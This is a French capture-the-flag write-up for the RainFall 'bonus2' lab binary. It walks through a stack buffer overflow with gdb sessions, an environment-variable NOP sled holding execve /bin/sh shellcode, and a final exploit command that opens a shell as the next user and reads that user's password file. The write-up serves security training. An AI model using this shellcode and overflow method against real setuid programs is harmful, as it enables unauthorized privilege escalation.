 # Bonus 2

En lanceant le programme on doit mettre deux arguments sinon celui-ci exit. lorsque nous lancont avec 2 string on peut peut voir qu'il concate le premier parametre avec 'Hello'
```
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 test
bonus2@RainFall:~$ ./bonus2 test test1
Hello test
bonus2@RainFall:~$ ./bonus2 test test1 test2
bonus2@RainFall:~$
```
En regardant dans cuter on voit qu'il y a 2 `strcpy` qu'on doit pouvoir overflow, donc maintenant on vas essayer de trouver un `segfault` avec buffer overflow generator.
```
(gdb) r $(cat /tmp/BOgenerator) test
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) test
Hello Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Atest
[Inferior 1 (process 11401) exited with code 063]
(gdb) r test $(cat /tmp/BOgenerator) 
Starting program: /home/user/bonus2/bonus2 test $(cat /tmp/BOgenerator)
Hello test
[Inferior 1 (process 11404) exited with code 013]
(gdb) r $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator) 
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)
Hello Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
on ne peut pas exploiter cette adresse, mais on remarque que la vérification de la variable env LANG est stockée dans une variable globale `language` qui est comparer a plusieur valeur pour l'affichage du hello dans les differante langue.

```
bonus2@RainFall:~$ env
[...]
LANG=en_US.UTF-8
[...]
```
On voit que la langue est en Americain nous allons essayer de la passer en `fi`
```
bonus2@RainFall:~$ LANG=fi
bonus2@RainFall:~$ gdb ./bonus2 
gdb) run $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)                
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)
Hyvää päivää Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
Cette fois ci nous avons une adresse exploitable, lorsque nous la mettons dans buffer overflow generator : https://wiremask.eu/tools/buffer-overflow-pattern-generator/ on optien un offset de 18. On voit dans le programme que le premier argument va être mov dans un buffer de 40 octers. Maintenant il ne nous reste plus qu'a cree un payload qui vas generer un buffer overflow qui y  ira ensuite chercher dans le nopesled le shellcode
```
(gdb) b main 
Breakpoint 1 at 0x804852f
(gdb) run         
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(cat /tmp/BOgenerator) $(cat /tmp/BOgenerator)

Breakpoint 1, 0x0804852f in main ()
(gdb) x/200s environ
[...]
0xbffffc9b:      "payload=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\"...
0xbffffd63:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\"...
0xbffffe2b:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
0xbffffead:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
[...]
```
On as donc recuperer notre addresse du nopesled `0xbffffd63` nous allons donc cree un payload qui vas overflow le premier argument en affichant 40 caractere et le segond avec 18 + l'adresse du nopesled
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print 40*"A"') $(python -c 'print 18*"B" + "\x63\xfd\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBc���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$   
```

